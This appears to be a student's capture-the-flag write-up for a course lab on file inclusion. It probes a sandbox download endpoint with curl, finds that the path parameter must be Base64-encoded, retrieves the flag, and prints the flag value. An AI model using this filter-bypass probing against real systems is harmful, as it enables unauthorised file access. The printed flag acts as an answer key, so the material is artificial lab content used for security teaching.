

# Task 2. Not even this can be bypassed

## **Task Description**

A critical flag is hidden within the system. The endpoint has implemented filtering and validation, making traditional techniques ineffective. However, every defense has its blind spot—your mission is deconstructing it. Your task is to investigate, exploit, and secure the endpoint.

Target Machine: Cyber - WebSec 0x07 \
Main Endpoint: http://web0x07.hbtn

Challenge yourself to bypass it while respecting security boundaries.

Useful instructions:

1. Test Boundaries: Experiment with different encoding techniques to understand how inputs are processed.
2. Think Outside the Box: Consider less conventional methods of bypassing security filters.
3. Investigate how the endpoint handles path parameters and what format it expects.

Repo:

GitHub repository: dlh-cyber_security \
Directory: web_application_security/0x07_file_inclusion \
File: 2-flag.txt


## **Solution**


- Start sandbox `cyber_websec_0x07`.
- Start openvpn.
- Put IP address of the sandbox in `/etc/hosts` file.
```bash
echo "10.42.227.159 web0x07.hbtn" | sudo tee -a /etc/hosts
sudo vim /etc/hosts
ping -c 2 web0x07.hbtn
```

## Task 2: Not even this can be bypassed

Objective: Find and retrieve `2-flag.txt` by identifying and bypassing the file-access validation.


Unlike Tasks 0 and 1, this challenge doesn't specify an exact endpoint or flag location. We'll first discover the available routes, then investigate the filtering mechanism.

### Step 1: Inspect the application's root endpoint

Execute:

```
curl -i -sS 'http://web0x07.hbtn/'
```

What we're looking for:

- Links to Task 2 endpoints.
- HTML comments or references to additional routes.
- File download functionality.
- Parameters that might accept file paths.


The application's root endpoint reveals a link to Task 2:

```
http://web0x07.hbtn/task2/
```



- retrieving the HTML with curl shows the following:

```html
curl -i -sS 'http://web0x07.hbtn/task2/'

HTTP/1.1 200 OK
Server: nginx/1.26.3
Date: Thu, 12 Nov 2026 18:46:29 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1527
Connection: keep-alive
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline'; img-src 'self' data:; font-src 'self';
Via: waitress
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
X-Xss-Protection: 1; mode=block

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" type="text/css" href="/static/css/style.css">
    <title>Task 2 - Encoding Challenges</title>
</head>
<body>
    <div class="outer-container">
        <div class="inner-container">
            
            <div class="container-alert">
                <h1>Task 2 - Advanced Encoding Challenges</h1>
                <div class="separator"></div>
                <p style="animation: none;">Even more security on the level of download file but still vulnerable if you try enough!</p>
                <div style="padding: 20px; text-align: left;">
                    <h3>Hint:</h3>
                    <p style="animation: none; font-size: 14px; background: #fff3cd; padding: 10px; border-radius: 5px;">
                        The secret path is: <code>abc123_secret_path_to_flag</code><br>
                    </p>
                    <br>
                    <h3>Actions:</h3>
                    <ul style="animation: none;">
                        <li><a href="/task2/upload_file">Upload File</a></li>
                        <li><a href="/task2/list_file">View Files</a></li>
                    </ul>
                    <br>
                    <a href="/" style="color: #e0003c;">← Back to Home</a>
                </div>
            </div>
        </div>
    </div>
</body>
</html>
```


### Step 2: Inspect the Task 2 file listing

We've discovered an important clue in the HTML:

```
abc123_secret_path_to_flag
```

This is likely relevant to the location of `2-flag.txt` or the path validation mechanism.

We also identified two endpoints:

- `/task2/upload_file`: File upload functionality.
- `/task2/list_file`: File listing and potentially download functionality.

Our next objective: Determine how Task 2 constructs download URLs and which parameters it accepts.

Execute:

```bash
curl -i -sS 'http://web0x07.hbtn/task2/list_file'
```

What we're investigating:

1. Whether download links use the same `filename` and `path` parameters as Tasks 0 and 1.
2. Whether the secret path appears in any file references.
3. Whether the application exposes a different download endpoint.


```html
curl -i -sS 'http://web0x07.hbtn/task2/list_file'

HTTP/1.1 200 OK
Server: nginx/1.26.3
Date: Thu, 12 Nov 2026 18:58:37 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 881
Connection: keep-alive
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline'; img-src 'self' data:; font-src 'self';
Via: waitress
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
X-Xss-Protection: 1; mode=block

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>List of Files</title>
    <link rel="stylesheet" type="text/css" href="/static/css/style.css">
</head>
<body>
    <div class="outer-container">
        <div class="inner-container">
            
            <div class="container">
                <h1>2. List of Files in the Hub</h1>
                <div class="separator"></div>
                <ul>

                    <li>
                        <a href="download_file?filename=README.md&amp;path=.">
                            README.md
                        </a>
                    </li>

                </ul>
            </div>
        </div>
    </div>
</body>
</html>

```

### Step 3: Inspect README.md for clues

The file listing confirms that Task 2 uses the same download endpoint structure as Tasks 0 and 1:

```html
GET /task2/download_file?filename=README.md&path=.
```

However, Task 2 introduces additional filtering and provides the secret path:

```
abc123_secret_path_to_flag
```

Before testing encoding bypasses, let's retrieve `README.md` to establish how the download endpoint behaves with valid parameters and check for additional clues.

Execute:

```
curl -i -sS 'http://web0x07.hbtn/task2/download_file?filename=README.md&path=.'
```

What we're testing:

- Whether normal file downloads work.
- Whether the README describes the storage directory or filtering rules.
- Whether the endpoint returns useful information about file retrieval.


```bash
curl -i -sS 'http://web0x07.hbtn/task2/download_file?filename=README.md&path=.'

HTTP/1.1 403 FORBIDDEN
Server: nginx/1.26.3
Date: Thu, 12 Nov 2026 19:12:23 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 30
Connection: keep-alive
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline'; img-src 'self' data:; font-src 'self';
Via: waitress
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
X-Xss-Protection: 1; mode=block

Access denied: Invalid path ''
```

### Step 4: Investigate the path filter

The response gives us our first important clue:

```
HTTP/1.1 403 FORBIDDEN

Access denied: Invalid path ''
```

We submitted `path=.`, but the error reports an empty path (`''`).

This suggests the application may be removing or normalizing certain characters before validating the path. One possibility is that the `.` character is stripped.

Let's test the secret path disclosed on Task 2's homepage.

Execute:

```bash
curl -i -sS 'http://web0x07.hbtn/task2/download_file?filename=2-flag.txt&path=abc123_secret_path_to_flag'
```

What we're testing:

- Whether the secret path is accepted by the validator.
- Whether the endpoint expects a relative directory name.
- Whether an error reveals how the application processes the supplied path.

The distinction matters:

- 403 Forbidden: Potential filtering or authorization failure.
- 404 Not Found: The path may have passed validation, but the file wasn't found.
- 200 OK: The file was successfully retrieved.

```bash
curl -i -sS 'http://web0x07.hbtn/task2/download_file?filename=2-flag.txt&path=abc123_secret_path_to_flag'

HTTP/1.1 403 FORBIDDEN
Server: nginx/1.26.3
Date: Thu, 12 Nov 2026 19:30:06 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 57
Connection: keep-alive
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline'; img-src 'self' data:; font-src 'self';
Via: waitress
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
X-Xss-Protection: 1; mode=block

Access denied: Invalid encoding. Error: Incorrect padding
```

### Step 5: Test Base64 encoding of the path

The new response reveals a significant clue:

```
HTTP/1.1 403 FORBIDDEN

Access denied: Invalid encoding. Error: Incorrect padding
```

Key finding: The endpoint likely expects the `path` parameter to be Base64-encoded.

The `Incorrect padding` error is characteristic of Base64 decoding in Python, often produced by `base64.b64decode()`.

Our previous request submitted:

```
path=abc123_secret_path_to_flag
```

The application appears to have attempted to decode that value rather than treating it as a literal directory path.

Let's test this hypothesis.

Execute:

```bash
curl -i -sS -G \
  --data-urlencode 'filename=2-flag.txt' \
  --data-urlencode "path=$(printf %s 'abc123_secret_path_to_flag' | base64 -w0)" \
  'http://web0x07.hbtn/task2/download_file'
```

This command:

1. Encodes `abc123_secret_path_to_flag` using Base64.
2. URL-encodes the resulting value to preserve characters such as `=`, `+`, and `/`.
3. Sends the encoded value as the `path` parameter.

What we're looking for:

- `200 OK`: The encoding was accepted and the flag was retrieved.
- `403 Forbidden` with a different message: The Base64 decoding probably succeeded, but another validation rule rejected the path.
- `404 Not Found`: The encoded path may have been accepted, but the requested file wasn't found.

```bash
curl -i -sS -G \
  --data-urlencode 'filename=2-flag.txt' \
  --data-urlencode "path=$(printf %s 'abc123_secret_path_to_flag' | base64 -w0)" \
  'http://web0x07.hbtn/task2/download_file'

HTTP/1.1 200 OK
Server: nginx/1.26.3
Date: Thu, 12 Nov 2026 19:33:17 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 40
Connection: keep-alive
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; style-src 'self' 'unsafe-inline'; img-src 'self' data:; font-src 'self';
Via: waitress
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
X-Xss-Protection: 1; mode=block

FLAG_2: d228761de7345891bb76e633489ab413
```

### Step 6: Save the flag

```bash
echo "d228761de7345891bb76e633489ab413" > 2-flag.txt
git add .
git commit -m "2-flag.txt"
git push
```

